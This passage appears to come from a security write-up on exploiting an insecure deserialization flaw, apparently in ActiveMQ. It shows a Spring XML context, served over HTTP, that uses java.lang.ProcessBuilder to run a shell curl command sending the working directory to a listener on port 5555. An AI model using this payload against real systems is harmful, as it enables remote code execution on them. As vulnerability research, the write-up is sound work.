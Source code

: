 On my local HTTP service running at port 8000, I hosted the following `poc.xml` file containing the application context:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <value>curl http://127.0.0.1:5555/ExploitSuccessful?pwd=$(pwd)</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

The above application context will assist in creating an object of `java.lang.ProcessBuilder` and run a command to hit my listener service hosted on port 5555. If hit, It would indicate the successful exploitation of the insecure deserialization vulnerability.

<br/>

Now we have everything in place to run the exploit, Its time to run the program.

Console:
![](/assets/img/activemq-console-output.jpg)


HTTP Service hosting XML application context:
![](/assets/img/activemq-http-service.jpg)
